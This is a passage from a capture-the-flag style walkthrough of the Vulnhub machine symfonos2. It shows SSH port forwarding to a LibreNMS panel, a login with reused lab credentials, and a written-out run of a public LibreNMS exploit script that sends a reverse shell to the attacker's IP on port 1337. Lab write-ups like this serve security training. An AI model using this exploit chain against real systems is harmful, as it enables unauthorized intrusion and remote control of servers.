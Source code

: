 Nice guess seems we have a port running locally which is `8080` let quickly port forward to be able to access it at our end.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ ssh -L 8080:127.0.0.1:8080 aeolus@172.16.109.163
aeolus@172.16.109.163's password: 
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Mar 11 04:21:32 2022 from 172.16.109.1
aeolus@symfonos2:~$ 
```

![image](https://user-images.githubusercontent.com/69868171/157877092-9a500700-f4e6-4f28-8e85-0f711f5f4ecd.png)

Now we are talking `LibreNMS` should be cool to exploit but we need to get in first let try some default credentials and password reused.

![image](https://user-images.githubusercontent.com/69868171/157877308-f0c38a55-93c6-4064-8d3a-c584520eea48.png)

But no way a slap back now let try the credentials we have on it.

```
aeolus:sergioteamo
```

![image](https://user-images.githubusercontent.com/69868171/157877489-a365f1bd-c968-49e1-8983-23a4b9bbfb3c.png)

Mama we are in XD now let look around what version is it running is it and is it vulnerable let do some research.

![image](https://user-images.githubusercontent.com/69868171/157878266-7fa2789c-36dc-41cf-b7d1-6d37695e7b7d.png)

Downloaded and ready to run.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ python 47044.py http://127.0.0.1:8080/ "librenms_session=eyJpdiI6IkwwZFI4bktlSGU1d01JVTlIbGE3Tnc9PSIsInZhbHVlIjoiOHV0QWxUZVlTVm0zU2JSZEVFXC94SDYxXC9wcnpDSHVmUllKUWhNUkFjT1ZLZG5VeFcrbE5iNlR5bG9VaUFwUmNGM0VVb0tJQm9PQ2FoT2gySGxPUEh4QT09IiwibWFjIjoiODJlMTZkOGE2ZDc0ZTNiYjBkOTVlZWQwZjBhNjBiNzdkYTY5ZmEzYzI0N2Q0NDk4NDkzNzVhNTQ4OTFkMWQxOSJ9;PHPSESSID=n7m2rbfrv8fnl4209q1auu3fa3;XSRF-TOKEN=eyJpdiI6InFVUVVnc1VGaGVqTXM1R1plXC9HUWNRPT0iLCJ2YWx1ZSI6IjR5T0JWcytlWFwvcEZXdkFyOXRQKzVzNUp6Vjh1QjJWQWg0ajdGWVYxUDY1RDgzY044ZEhYVW1CTnNkaFhWanZOeEpHUUxYdU5vYjE5eWowZkFCSW14QT09IiwibWFjIjoiMDFjOGQ2MzZjM2Q2NjM3MDUxMmM2M2FlNDVhODJmMGIyMGQzMjgyYzkxYzkzMzAwMzg2ZDkwZWVhOWE0MWU5OCJ9" 172.16.109.1 1337
```

![image](https://user-images.githubusercontent.com/69868171/157879405-08409578-00fa-492d-bd3c-46761b84e169.png)

Boom we have shell let spawn a full tty shell to make it more stable to use.
